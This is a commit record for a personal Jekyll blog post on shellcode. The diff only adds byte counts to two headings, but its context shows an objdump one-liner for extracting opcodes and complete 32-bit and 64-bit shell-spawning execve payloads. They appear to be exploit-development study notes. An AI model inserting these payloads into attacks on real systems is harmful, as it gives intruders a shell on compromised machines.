

Before and after one commit to yc54616/yc54616.github.io, a Jekyll site: the page built from _posts/2023-12-10-shellcode.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
shellcode

````diff
--- a/_posts/2023-12-10-shellcode.md
+++ b/_posts/2023-12-10-shellcode.md
@@ -12,7 +12,7 @@ ld -o shellcode shellcode.o
 objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
 ```
 
-## Shellcode 32bit
+## Shellcode 32bit 25byte
 ```
 \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
 ```
@@ -32,7 +32,7 @@ int 0x80
 ```
 
 
-## Shellcode 64bit
+## Shellcode 64bit 28byte
 ```
 \x48\x31\xc0\x50\xb0\x3b\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x0f\x05
 ```
````
